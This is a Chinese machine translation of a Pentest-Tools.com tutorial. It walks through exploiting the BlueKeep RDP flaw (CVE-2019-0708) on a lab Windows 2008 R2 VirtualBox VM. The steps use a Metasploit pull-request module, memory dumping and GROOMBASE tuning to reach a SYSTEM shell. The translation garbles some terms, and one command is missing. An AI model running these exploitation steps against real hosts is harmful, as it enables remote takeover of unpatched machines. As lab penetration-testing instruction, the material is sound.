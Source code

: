 # 如何利用 Metasploit | Pentest-Tools.com 的 BlueKeep 漏洞

> 原文：<https://pentest-tools.com/blog/bluekeep-exploit-metasploit>

在本文中，我们展示了我们利用最近提出的 [Metasploit 模块](https://github.com/rapid7/metasploit-framework/pull/12283)来利用 [RDP 蓝牙漏洞](https://pentest-tools.com/blog/microsoft-rdp-vulnerability)的方法。

我们展示了如何通过调整 Metasploit 模块代码(GROOMBASE 和 GROOMSIZE 值)在易受攻击的 Windows 2008 R2 计算机上获取 Meterpreter 外壳，因为**该漏洞目前不能开箱即用**。

接下来，我们将解释让模块在我们的目标机器上正常工作的步骤:

1.  [**背景**](#1-background)

2.  [**先决条件**](#2-prerequisites)

3.  [**在 Metasploit** 中安装 Bluekeep 漏洞利用模块](#3-installing-the-bluekeep-exploit-module-in-metasploit)

4.  [**准备目标机**](#4-setting-up-the-target-machine)

5.  [**调整蓝调漏洞利用**](#5-adjusting-the-bluekeep-exploit-groombase)

6.  [**运行漏洞利用模块**](#6-running-the-bluekeep-exploit-module)

7.  [**结论**](#7-conclusions)

## **1。背景**

BlueKeep 是微软 RDP 服务中的一个严重的远程代码执行漏洞。由于该漏洞可以被蠕虫攻击，它已经引起了安全社区的极大关注，与[永恒之蓝 MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) 和 [Conficker MS08-067](https://www.sans.org/security-resources/malwarefaq/conficker-worm) 属于同一类别。我们发布了[对 BlueKeep 漏洞](https://pentest-tools.com/blog/microsoft-rdp-vulnerability)的深入分析，以帮助你了解全貌。

几天前，一位 Metasploit 贡献者——[zero sum 0x 0](https://twitter.com/zerosum0x0)——向包含 BlueKeep(CVE-2019-0708)漏洞利用模块的框架提交了一个 [pull 请求](https://github.com/rapid7/metasploit-framework/pull/12283)。Rapid7 团队也在他们的博客上发表了一篇关于这个漏洞的文章。

截至目前，该模块尚未集成到主 Metasploit 分支中(它仍然是一个拉请求)，它只针对 64 位版本的 Windows 2008 R2 和 Windows 7 SP1。此外，该模块现在被列为**手动**，因为用户需要提供关于目标的额外信息，否则，它有与 BSOD 崩溃的风险。

## **2。先决条件**

为了让这个场景工作，我们使用了以下内容:

*   **VirtualBox 6** 用于托管目标 Windows 虚拟机

*   过时的 Windows 2008 R2 64 位。iso 图像；我们的目标虚拟机上安装的最新修补程序是:KB2888049 和 KB976902

*   一台 **Linux 机器**在哪里安装 Metasploit(可以是虚拟机或物理机)

在 Linux 机器上，首先，我们需要克隆 Metasploit 项目:

```
$ git clone https://github.com/rapid7/metasploit-framework.git
$ cd metasploit-framework
```

然后我们需要获得上面提到的带有拉请求的分支:

```
$ git fetch origin pull/12283/head:bluekeep
$ git checkout bluekeep
```

之后，我们安装 Metasploit 所需的依赖项:

```
$ gem install bundler && bundle
```

在此步骤中，您可能会遇到类似这样的错误:`An error occurred while installing pg (0.21.0), and Bundler cannot continue. Make sure that gem install pg -v '0.21.0' --source 'https://rubygems.org/' succeeds before Bundling.`

要修复它，您需要安装 PostgreSQL 的开发库:

```
apt-get install libpq-dev
```

我们遇到的另一个错误是:`An error occurred while installing pcaprub (0.13.0), and Bundler cannot continue. Make sure that gem install pcaprub -v '0.13.0' --source 'https://rubygems.org/' succeeds before bundling.`

我们用以下方法解决了这个问题:

```
apt-get install libpcap-dev
```

此时，Metasploit 依赖项已正确安装，我们能够使用 BlueKeep 漏洞利用模块:

```
$ ./msfconsole
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

## **4。设置目标机器**

我们的目标是安装在 Virtual Box 6 上的过时的 Windows 2008 R2 64 位机器。

下面是它的`systeminfo`输出:

![setting up the target machine for exploitation](img/b12ba7f72e37b635ef88155a8a5ded19.png)

目标虚拟机具有以下属性:

*   2GB 内存

*   1 核处理器

*   30 GB 硬盘存储容量

正如漏洞注释中所述，对于 Windows Server 2008，我们必须将以下注册表项`HKLM\\SYSTEM\\CurrentControlSet\\ Control\\TerminalServer\\ WinStations\\RDP-Tcp\\fDisableCam`设置为`0`。这不是该目标操作系统的默认设置，但它是 [RDPSND 通道](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rdpbcgr/fbb88576-40fc-4b20-a39b-042e75cb6f85)工作所必需的:

![registry editing](img/4a846559ee6557c2fe5d279aa7ec801a.png)

这个漏洞不是开箱即用的。我们获得了几个 BSODs，但没有一个壳。

![a blue screen of death error](img/18b06ef0db1e33b05ed6555ff8ae906d.png)

## **5。调整 BlueKeep 漏洞利用(GROOMBASE)**

蓝屏文字表示我们有一个页面错误问题，这意味着一些内存地址没有正确设置。

我们真正需要的是正确的 GROOMBASE 值，它是[非分页池区域](https://docs.microsoft.com/en-us/windows/win32/memory/memory-pools) (NPP)的起始地址。

我们需要从目标机器的内存转储中提取 NPP 地址。

### **获取目标机器的内存转储**

这个操作用 VirtualBox 就可以轻松完成。目标机器需要在 VirtualBox 中启动，并且您需要运行以下命令(在您的 Windows 主机上)来获得内存转储:

```
cmd> C:\Program Files\Oracle\VirtualBox\VBoxManage.exe debugvm "vm_name" dumpvmcore --filename=vm.memdump
```

如果您在 Linux 主机上使用 VirtualBox，也可以使用以下命令:

```
$ VBoxManage debugvm <uuid|vmname> dumpvmcore [--filename=name]
```

*注意:*免费的 VMWare Workstation Player 15 版本不允许内存转储，因此我们建议使用 VirtualBox。

我们在 Docker 容器中使用[recall](https://github.com/google/rekall)来完成这个操作。下面是我们如何在主机上下载带有 rekall 的 Docker 映像:

```
$ docker pull remnux/rekall
```

现在，我们将内存转储复制到我们的主目录中，我们需要使它可以从 docker 容器中访问。为此，您需要使用以下命令运行 docker 容器:

```
$ cp dump_location/vm.memdump ~/bluekeep
$ docker run --rm -it -v ~/bluekeep:/home/nonroot/files remnux/rekall bash
```

现在，通过键入以下命令运行 rekall:

```
$ rekall -f files/dump_blue.memdump pools
```

输出应该是这样的:

![the NPP output](img/019c94d0f91fe14e97080a513fc79da2.png)

这显示了 NPP 在您的虚拟机上的起始地址，该地址将被放置在漏洞的 GROOMBASE 变量中。

### **编辑漏洞利用模块**

利用漏洞的代码位于`modules/exploits/windows/rdp/ cve20190708bluekeeprce.rb`中，您需要在“Virtualbox 6”部分下设置 GROOMBASE 变量，用提取的 NPP 开始地址替换它。在我们的例子中，它是:`0xfa8001804000`。

![editing the GROOMBASE variable](img/8545e2d2815fdb17c1ea050dd9776c65.png)

现在您需要使用命令*重新加载*Metasploit 模块:

## **6。运行 BlueKeep 漏洞利用模块**

现在我们可以从 Metasploit 接口开始配置模块。

第一件事是将参数 GROOMSIZE 更改为 50。这与虚拟机拥有的内存量有关，这是适合我们情况的值。

其余参数是标准的(`RHOSTS`、`PAYLOAD`、`LHOST`)，您可以在下图中看到它们的配置:

![configuring parameters for exploitation](img/399190bbfa53a1ae9beafe80605b45dc.png)

*注意:*以 RDP_*开头的参数不需要配置。它们不会影响漏洞利用的功能。

我们还做了`set target 2`在 VirtualBox 上选择目标，然后运行`check`命令，然后再运行`exploit`:

![setting targets for exploitation](img/515b8e448a908f46be33e7215b2c1426.png)

如您所见，该漏洞使攻击者能够以用户 **NT AUTHORITY/SYSTEM** 的身份远程执行代码，该用户是在 Windows 机器上拥有最高级别权限的本地系统帐户。

## **7。结论**

尽管为 BlueKeep 提出的 Metasploit 模块没有为您提供具有默认配置的远程 shell，但它对 Metasploit 的添加促使系统管理员和家庭用户修补他们的 Windows 机器。

我们相信，安全社区将很快发现一种自动检测 NPP 起始地址的方法，这将使这种利用在多个目标上完全可靠。

#### **参考文献**